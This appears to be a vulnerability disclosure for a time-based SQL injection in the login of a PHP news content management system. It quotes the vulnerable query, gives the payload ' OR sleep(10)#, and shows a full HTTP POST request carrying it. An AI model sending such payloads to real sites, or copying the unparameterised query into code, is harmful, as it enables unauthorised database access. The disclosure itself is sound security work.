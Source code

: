 ## Vulnerability Details:
- **Application Name**: Content Management System
- **Software Link**: [Download Link](https://code-projects.org/content-management-system-in-php-with-source-code-2/)
- **Vendor Homepage**: [Vendor Homepage](https://github.com/anirbandutta9/NEWS-BUZZ)
- **BuG**: Time-Based SQL Injection
- **BUG_Author**: egsec

## About project:
The Content Management System In PHP is a simple project that allows users to post and manage various kinds of news content.

## Vulnerability Description:
- There is a sql injection vulnerability in the login part of the index.php file. It allows an attacker to manipulate the SQL query and potentially perform unauthorized actions on the database. 

## Vulnerable Code Section:
```php
$query = "SELECT * FROM users WHERE username = '$username'";
$result = mysqli_query($conn, $query) or die(mysqli_error($conn));
```
- In this line, the `$username` variable is directly embedded into the SQL query without proper handling. This allows an attacker to inject malicious SQL code.

## Proof of Concept (PoC):
- Location: `http://localhost/NEWS-BUZZ/index.php`
- Time-Based SQL Injection Payload: `' OR sleep(10)#`
- Poc Video : [Video Link](https://youtu.be/ObW-S05rYVI)
- request
```python
POST /NEWS-BUZZ/login.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
Origin: http://localhost
Connection: close
Referer: http://localhost/NEWS-BUZZ/index.php
Cookie: PHPSESSID=456n0gcbd6d09ecem39lrh3nu9
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

user_name=admin%27+or+sleep%2810%29%23&user_password=adminpass&login=
```
- The response will come called time by using `sleep()` function.

## Impact:
- In a time-based SQL injection attack, an attacker manipulates SQL queries to measure response times and infer information based on delays. This type of attack is useful when the application doesn’t return direct errors or output that can be used to assess query behavior.
An attacker can use time-based SQL injection to extract the contents of a database.

## References:
- [vuldb.com link for CVE-2024-10758](https://vuldb.com/?id.282927)
- [cvefeed.io link for CVE-2024-10758](https://cvefeed.io/vuln/detail/CVE-2024-10758)
